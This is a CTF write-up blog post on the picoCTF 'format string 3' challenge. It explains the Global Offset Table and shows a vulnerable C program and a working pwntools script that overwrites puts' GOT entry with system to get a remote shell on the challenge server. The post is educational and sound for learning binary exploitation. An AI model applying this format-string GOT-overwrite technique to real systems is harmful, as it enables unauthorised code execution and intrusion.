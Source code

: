 ```yaml
---
layout: post
title:  Overwriting entries in the Global Offset Table
categories: write-ups
comments: true
excerpt: "Learning about overwriting GOT entries using the picoCTF format string 3 challenge."
---
```

<br>
<p>
<h2>Overwriting entries in the Global Offset Table using a vulnerable printf function</h2>
This write-up builds on what was learned about exploiting printf vulnerabilities in my write-up on the picoCTF <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> challenge. In the format string 3 challenge there is a similar vulnerability, but this time instead of overwriting a variable within the program it will be used to overwrite a pointer to an entry in the Global Offset Table so that it will call a different libc function.
</p>
<br>
<ol>
<a href="#format-string-3"><li>format string 3</li></a>
<a href="#got"><li>The GOT, PLT, and GOT.PLT</li></a>
<a href="#exploit"><li>The Final Exploit</li></a>
</ol>

<div id="format-string-3" class="section-link">
<h2>format string 3</h2>
<p>When the program is run, it prints a line which leaks the address of the GOT entry for the <b>setvbuf</b> function and then waits for input:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-1.png">
</p>
<p>
After supplying some input, it then prints two lines; one which repeats the input and another which prints <b>/bin/sh</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-2.png">
</p>
<p>
Here is the source code for this function:<br>
{% highlight ruby %}
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
	puts("Howdy gamers!");
	printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
	char *all_strings[MAX_STRINGS] = {NULL};
	char buf[1024] = {'\0'};

	setup();
	hello();	

	fgets(buf, 1024, stdin);	
	printf(buf);

	puts(normal_string);

	return 0;
}
{% endhighlight %}
</p>
<p>
Looking at the source, we can identify two goals. The main objective will be to overwrite the pointer to the <b>puts</b> function with a pointer to the <b>system</b> function so that instead of printing <b>/bin/sh</b>, the program will make a <b>system</b> call to <b>/bin/sh</b> instead, granting us a shell. To accomplish this, we will need to exploit the vulnerable printf function which repeats user input.
</p>
</div>

<div id="got" class="section-link">
<h2>The Global Offset Table</h2>
<p>My understanding of the GOT is that it is a copy of libc used by a program which is stored in a random memory location at runtime in order to prevent the type of attack we are performing here. But because we have access to the copy of libc being used and the location of <b>setvbuf</b> has been leaked, we are able to calculate offsets and find the memory locations of other functions within libc.<br><br>
Finding the locations of functions and calculating their offsets can all be accomplished using pwntools, but I wanted to know exactly what was going on under the hood, so I took a look at the libc file which was supplied with this challenge. First, I used the <b>readelf</b> function to find the location of <b>setvbuf</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-4.png">
</p>
<p>
Then, I found the location of <b>system</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-5.png">
</p>
<p>
Finally, I found the difference of the two, which is <b>2ac90</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-6.jpg">
</p>
<p>
To test this theory, I ran the program in gdb and set a breakpoint after the <b>setvbuf</b> leak:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-7.png">
</p>
<p>
Then I subtracted the <b>2ac90</b> offset from the leaked address and looked at the memory in that location:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-8.png">
</p>
<p>
Cool! We've found the location of the <b>system</b> call in memory! Now what points to the <b>puts</b> entry we want to replace?
</p>
<h2>The GOT, PLT, and GOT.PLT</h2>
<h3>GOT</h3>
<p>As previously mentioned, the Global Offset Table (GOT) is a copy of libc stored in a random location in memory. The location of these addresses must be found at runtime, which is why the setvbuf leak in this program is so valuable.
</p>
<h3>PLT</h3>
<p>The Procedure Linkage Table (PLT) is where libc functions are referenced locally in this program. In this example, <b>puts</b> is located at <b>0x401080</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/puts2.png">
</p>
<h3>GOT.PLT</h3>
<p>This is the middle-man where the libc functions which are called locally are linked to the GOT. Here we can see the <b>got.plt</b> entry by examining the instructions following the local call. Looking at the memory in this location you can see the GOT address for <b>puts</b>:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-12.png">
</p>
<p>
Now all we need to do is overwrite this entry with the offset we calculated earlier (the address for <b>system</b> is different because this is a different instance from earlier):<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-13.png">
</p>
<p>
And after some bugginess, we have a shell!<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-14.png">
</p>
<p>
Entering an <b>ls</b> command shows the contents of the local directory where I was working:<br><br>
<img src="https://raw.githubusercontent.com/tlkroll/got-overwrite/refs/heads/main/fs3-15.png">
</p>
<p>
I believe the errors in the above examples are from the breakpoints I set to examine memory. Unfortunately, because of the dynamic locations which are generated every time the program is run and the fact that the payload can not be crafted manually and sent to the program beforehand, a script must be used to complete this challenge. But at least we have a solid grasp of what is going on behind the scenes.
</p>
</div>

<div id="exploit" class="section-link">
<h2>Final Exploit</h2>
<p>I won't go over the breakdown of the printf vulnerability because I already covered that in my <a href="/write-ups/2024/12/22/format-string-exploitation.html">format string 2</a> write-up, but I used those methods to determine that our printf string is in location 38. Using all of the information we have so far, here is the script I used, adapted from Wiebe Willems's script <a href="https://blog.nviso.eu/2024/05/23/format-string-exploitation-a-hands-on-exploration-for-linux/" target="_blank">here</a>:<br>
{% highlight ruby %}
from pwn import *

libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

exe = ELF("./format-string-3") # these 3 lines set up for local execution
context.binary = exe
elf = context.binary = ELF('./format-string-3')

# p = process([exe.path]) # for local execution
p = remote("rhea.picoctf.net", 64162) # for remote execution
        

def main():

    info(p.recvline())              # receives howdy gamers line
    info(p.recvuntil("libc: "))     # receives until setvbuf address
    
    setvbuf_address = p.recvline()  # gets setvbuf address

    setvbuf_value = int(setvbuf_address.split(b"x")[1].strip(),16) # converts input to integer value for calculation

    libc.address = setvbuf_value - libc.symbols['setvbuf'] # calculate libc base address

    payload = fmtstr_payload(38, {elf.got['puts'] : libc.symbols['system']}) # format string payload; overwrites puts with system

    p.sendline(payload)
    p.clean()
    p.interactive() # gives program control back to user

if __name__ == "__main__":
    main()
{% endhighlight %}
</p>
</div>

<p>
After running this script we have a shell on the remote server and can just cat the flag.txt file!<br>
(I wasn't able to do this in the picoCTF webshell and had to use a Kali VM)<br><br>
I hope this was helpful. This challenge was a great way to learn about the Global Offset Table and also get some practice with gdb and pwntools. Reverse engineering and binary exploitation are the most fun things I have learned about so far on my cybersecurity journey!
</p>

{% if page.comments %} 

<br><br>
<p>
<div id="disqus_thread"></div>
<script>
    (function() { 
        var d = document, s = d.createElement('script');
        
        s.src = 'https://tlkroll.disqus.com/embed.js';
        
        s.setAttribute('data-timestamp', +new Date());
        (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript" rel="nofollow">comments powered by Disqus.</a></noscript>
</p>

{% endif %} 